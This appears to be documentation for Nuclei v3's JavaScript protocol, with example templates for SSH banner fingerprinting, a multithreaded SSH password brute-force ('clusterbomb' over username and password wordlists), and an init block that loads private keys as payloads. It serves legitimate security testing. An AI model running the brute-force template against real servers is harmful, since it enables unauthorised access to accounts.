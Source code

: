 ```yaml
---
title: "JavaScript Protocol"
description: "Review examples of JavaScript with Nuclei v3"
sidebarTitle: "Protocol"
---
```


The JavaScript protocol was added in nuclei v3 to allow writing exploits and checks in JavaScript, but internally they are executed in golang.

- It is not intended to fit into or be imported with any existing JavaScript libraries or frameworks outside of nuclei ecosystem.
- Nuclei Engine provides a set of functions, libraries that are tailor-made for writing exploits and checks and only adds required/necessary functionality to complement existing YAML-based DSL.
- It is not intended to be used as a general purpose JavaScript runtime and does not replace matchers, extractors, or any existing functionality of nuclei.
- JavaScript Protocol is intended to bridge the gap between network protocols.
- Nuclei v3.0.0 ships with **15+ libraries (ssh, ftp, RDP, Kerberos, and Redis)** tailored for writing exploits and checks in JavaScript and will be continuously expanded in the future.

## Simple Example 

Here is a simple example of a JavaScript protocol template:

```yaml
id: ssh-server-fingerprint

info:
  name: Fingerprint SSH Server Software
  author: Ice3man543,tarunKoyalwar
  severity: info
  

javascript:
  - code: |
      var m = require("nuclei/ssh");
      var c = m.SSHClient();
      var response = c.ConnectSSHInfoMode(Host, Port);
      to_json(response);
    args:
      Host: "{{Host}}"
      Port: "22"

    extractors:
      - type: json
        json:
          - '.ServerID.Raw'
```

In the above nuclei template, we are fingerprinting SSH server software by connecting in non-auth mode and extracting the server banner.  Let's break down the template.

### Code Section
The `code:` contains actual JavaScript code that is executed by nuclei engine at runtime. In the above template, we are:

- Importing `nuclei/ssh` module/library
- Creating a new instance of `SSHClient` object
- Connecting to SSH server in `Info` mode
- Converting response to json

### Args Section
The `args:` section can be simply understood as variables in JavaScript that are passed at runtime and support DSL usage.

### Output Section
The value of the last expression is returned as the output of JavaScript protocol template and can be used in matchers and extractors. If the server returns an error instead, then the `error` variable is exposed in the matcher or extractor with an error message.

## SSH Bruteforce Example

**SSH Password Bruteforce Template**

```yaml
id: ssh-brute

info:
  name: SSH Credential Stuffing
  author: tarunKoyalwar
  severity: critical
  

javascript:
  - pre-condition: |
      var m = require("nuclei/ssh");
      var c = m.SSHClient();
      var response = c.ConnectSSHInfoMode(Host, Port);
      // only bruteforce if ssh server allows password based authentication
      response["UserAuth"].includes("password")

    code: |
      var m = require("nuclei/ssh");
      var c = m.SSHClient();
      c.Connect(Host,Port,Username,Password);

    args:
      Host: "{{Host}}"
      Port: "22"
      Username: "{{usernames}}"
      Password: "{{passwords}}"

    threads: 10
    attack: clusterbomb
    payloads:
      usernames: helpers/wordlists/wp-users.txt
      passwords: helpers/wordlists/wp-passwords.txt

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - "response == true"
          - "success == true"
        condition: and
```

In the above nuclei template, we are bruteforcing ssh server with a list of usernames and passwords. We can tell that this might not have been possible to achieve with the network template. Let's break down the template.

### Pre-Condition

`pre-condition` is an optional section of JavaScript code that is executed before running “code” and acts as a pre-condition to exploit. In the above template, before attempting brute force, we check if:
 
- The address is actually an SSH server.
- The ssh server is configured to allow password-based authentication.

**Further explanation** 
- If pre-condition returns `true` only then `code` is executed; otherwise, it is skipped.
- In the code section, we import `nuclei/ssh` module and create a new instance of `SSHClient` object.
- Then we attempt to connect to the ssh server with a username and password.
This template uses [payloads](https://docs.projectdiscovery.io/templates/protocols/http/http-payloads) to launch a clusterbomb attack with 10 threads and exits on the first match.

Looking at this template now, we can tell that JavaScript templates are powerful for writing multistep and protocol/vendor-specific exploits, which is a primary goal of the JavaScript protocol.


## Init

`init` is an optional JavaScript section that can be used to initialize the template, and it is executed just after compiling the template and before running it on any target. Although it is rarely needed, it can be used to load and preprocess data before running a template on any target.

For example, in the below code block, we are loading all ssh private keys from `nuclei-templates/helpers` directory and storing them as a variable in payloads with the name `keys`. If we were loading private keys from the "pre-condition" code block, then it would have been loaded for every target, which is not ideal.

```
variables:
  keysDir: "helpers/"  # load all private keys from this directory

javascript:
    # init field can be used to make any preperations before the actual exploit
    # here we are reading all private keys from helpers folder and storing them in a list
  - init: |
      let m = require('nuclei/fs');
      let privatekeys = m.ReadFilesFromDir(keysDir)
      updatePayload('keys',privatekeys)

    payloads:
      # 'keys' will be updated by actual private keys after init is executed
      keys: 
        - key1
        - key2
```

Two special functions that are available in the `init` block are


| Function                   | Description                              |
| -------------------------- | ---------------------------------------- |
| `updatePayload(key,value)` | updates payload with given key and value |
| `set(key,value)`           | sets a variable with given key and value |

A collection of JavaScript protocol templates can be found [here](https://github.com/projectdiscovery/nuclei-templates/pull/8530).
